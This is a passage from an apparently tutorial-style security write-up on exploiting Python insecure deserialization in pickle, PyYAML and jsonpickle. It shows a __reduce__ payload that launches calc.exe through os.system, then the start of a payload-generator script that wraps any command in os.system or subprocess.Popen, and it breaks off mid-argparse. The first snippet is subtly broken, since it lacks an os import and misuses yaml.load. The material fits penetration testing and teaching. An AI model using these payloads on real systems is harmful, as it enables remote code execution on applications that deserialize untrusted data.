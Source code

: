As for the previous two modules, the serialization processs uses `__reduce__` to create the serializaed representation of the object. Generate a working exploit is as easy as it was for PyYAML, and can be done using the following code:

```python
import yaml

class Payload:
    def __reduce__(self):
        return (os.system, ("cmd /c calc.exe",))
    
yaml.load(Payload())
```

Ok, that's seems interesting, but still we would like to generate our serialized payloads without rewriting the code anytime we need to issue a different command, right? So, last but not least, we'll explore a way to dynamically generate valid payloads for all the python modules we saw above.

**Generating Exploits for pickle, PyYAML, and jsonpickle**

I created the following code, which can be used to generate different payloads for pickle, yaml and jsonpickle:

```python
import os
import _pickle
import subprocess
import jsonpickle
import sys
import yaml
import argparse


class Payload:
    def __init__(self, commands, vector=None):
        self.vector = vector
        self.commands = commands

    def __reduce__(self):
        if self.vector == "os":
            return os.system, (self.commands,)
        elif self.vector == "subprocess":
            return subprocess.Popen, (self.commands,)


def print_available_formats():
    available_formats = {
        "pickle": "Format for cPickle and _pickle modules",
        "json": "Format for jsonpickle module",
        "yaml": "Format for PyYAML module"
        }
    for k, v in available_formats.items():
        print(f"    {k}: {v}")


if __name__ == "__main__":
    parser = argparse.ArgumentParser(
        description='PayloadGenerator - A simple serialization payload generator', add_help=True)

    parser.add_argument(
        '-d', '--debug', required=False, action='store_true', default=False,
        help='Enable debug messages')
    parser.add_argument(
        '-s', '--save', required=False, action='store_true', default=False,
        help='Save payload to file')
    parser.add_argument(
```